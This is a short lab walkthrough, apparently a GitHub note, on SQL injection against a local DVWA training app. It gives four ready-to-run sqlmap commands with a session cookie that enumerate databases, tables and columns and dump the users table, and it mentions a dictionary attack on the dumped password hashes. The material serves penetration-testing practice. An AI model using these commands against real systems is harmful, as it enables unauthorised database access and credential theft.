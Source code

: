 DVWA local site will try to enforce security to impossible with its own PHPSESSID but it will
ask you if you want to set those diferently. This is obviously a vulnerability as the website should
enforce its own security and session ID.

* Test for SQL injection vulnerabilities within these fields:
	* sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" --dbs --dbms=mysql

* Grab tables:
	* sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" --tables

* Grab columns from the Users table
	* sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" -D dvwa -T users --columns

* Dump table entries from the Users table:
	* sqlmap --url "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=hello&Submit=Submit#" -p id,Submit --cookie="PHPSESSID=4q25s9eis93ul7uj24f0164vb0;security=low" -D dvwa -T users --dump
	* You will be given a choice to do a dictionary attack on the hashes with default options or
	download them later to work them against other tools.
